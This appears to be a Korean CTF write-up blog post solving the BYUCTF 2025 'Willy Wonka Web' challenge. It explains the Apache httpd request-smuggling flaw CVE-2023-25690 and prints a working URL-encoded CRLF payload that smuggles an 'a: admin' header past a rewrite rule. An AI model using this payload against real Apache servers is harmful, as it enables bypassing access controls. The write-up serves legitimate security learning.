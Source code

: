 ```yaml
---
layout: post
title: "CVE-2023-25690"
summary: "Apache http 웹서버 Smuggling 요청 취약점"
author: eveheeero
date: '2025-05-18 23:27:00 +0900'
category: ['etc', 'learning']
tags: cve
thumbnail: /assets/img/posts/2025-05-18-4.png
keywords: ctf, cve, vulnerability
usemathjax: false
permalink: /blog/CVE-2023-25690/
---
```



## 배경

BYUCTF 2025 웹해킹 Willy Wonka Web 문제 풀이입니다.

## 요약

![요약 ppt 이미지지](/assets/img/posts/2025-05-18-4.png){: style="max-width: 100%; height: auto;"}

- `apache http`가 URL 인코딩 된 띄어쓰기를 인식하지 못해, `GET`이나 `POST`등의 메소드가 오고 난 뒤 `다음 띄어쓰기가 올 때까지의 모든 문자`를 경로로 인식하던 취약점

## 문제 상황

![Backend](/assets/img/posts/2025-05-18-3.png){: style="max-width: 100%; height: auto;"}

![apache http 설정정](/assets/img/posts/2025-05-18-2.png){: style="max-width: 100%; height: auto;"}

요청 헤더에 `a`값이 오면 플래그를 출력하는 문제지만, `apache http 서버`의 `RewriteEngine`, `RewriteRule`를 이용해 `a`헤더를 `unset`하고 있었습니다.

`점수 - 241점, 푼 팀 - 191/894팀`

## 분석 과정

관련 CVE 내용을 확인해보니 `apache httpd 2.4.55`버전까지 `HTTP`메소드 이후 캐리지 리턴이 올 때까지 전부 하나의 경로로 인식한다는 내용이 있었습니다.

원하는 요청은 다음과 같았습니다.

```text
GET /name/anything HTTP/1.1
Host: 127.0.0.1
a: admin


```

해당 요청 `GET` 이후 부분을 전부 `UrlEncoding`하여 진행했으나 내부 오류가 계속 났었습니다.

' ' 및 '\r\n'만을 `UrlEncoding`하니 정상적으로 실행되었습니다.

두개 요청을 합쳐야 해서 다음처럼 요청을 보냈습니다.

```text
GET /name/anything HTTP/1.1
Host: 127.0.0.1
a: admin


GET /name/anything HTTP/1.1


```

이를 두번째 쿼리 `HTTP/1.1` 부분 앞까지 `%20`, `%0d`, `%0a`로 치환하여 다음처럼 쿼리가 나왔고

```text
GET /name/anything%20HTTP/1.1%0d%0aa:%20admin%0d%0a%0d%0aGET%20/anything HTTP/1.1


```

위 코드는 `apache http 웹서버`에서 헤더가 하나도 없는 `/name...anything` 경로를 가진 `GET`요청으로 처리가 될 것이며, 백엔드에서는 `a: admin`헤더를 가진 요청, 헤더 없는 요청, 총 두개로 처리가 됩니다.

![공격 성공 이미지](/assets/img/posts/2025-05-18-5.png){: style="max-width: 100%; height: auto;"}

다음처럼 코드 실행해 공격 성공했습니다.

## 작성자의 글

- `Smuggling` 공격 실습을 해보아 재밌었습니다.
- 소켓 관련 내용을 다루느라 힘들었습니다. 관련 툴을 미리 제작해둬야겠습니다.

## 참조

- [dhmosfunk/CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
